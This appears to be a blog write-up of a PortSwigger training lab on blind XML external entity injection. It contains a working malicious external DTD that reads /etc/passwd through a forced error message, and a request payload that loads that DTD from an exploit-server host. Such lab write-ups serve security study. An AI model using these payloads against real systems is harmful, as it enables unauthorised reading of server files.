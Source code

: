 ```yaml
---
author: Nithissh S
pubDatetime: 2024-11-23T15:22:00Z
modDatetime: 2024-11-23T09:12:47.400Z
title: Exploiting blind XXE to retrieve data via error messages
slug: xxe-portswigger-lab-8
featured: false
draft: false
tags:
  - BSCP
  - XXE
description:
  This lab has a `"Check stock"` feature that parses XML input but does not display the result. To solve the lab, `use an external DTD to trigger an error message that displays the contents of the /etc/passwd file`. The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 
---
```


## Objective 

This lab has a `"Check stock"` feature that parses XML input but does not display the result.

To solve the lab, `use an external DTD to trigger an error message that displays the contents of the /etc/passwd file`.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

## Solution 

In the exploit server, we have created a malicious dtd file with a content where it fetches the contents of `/etc/passwd` and causes an error in file not found error and along with that we can see the contents of `/etc/passwd`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Now just like the lab, we can use the payload here

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0ab700ba0347f44b85cbfe1b01d10072.exploit-server.net/exploit.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Last time, we provided an external collaborator and got the response through that.. But here we didn't provide any external server or nothing.. instead we made a `exploit.dtd` which is intentionally getting crashed in the seconf step where we provided `file:///nonexistent/` which means it will cause an error like `File not found` and along with that `%file` which will disclose the contents of `/etc/passwd`

Now send the request with payload, observing the response with the contents of `/etc/passwd` which as expected 

![](../../assets/images/bscp/xxe/xxe-25.png)

And the lab is solved..

![](../../assets/images/bscp/xxe/xxe-24.png)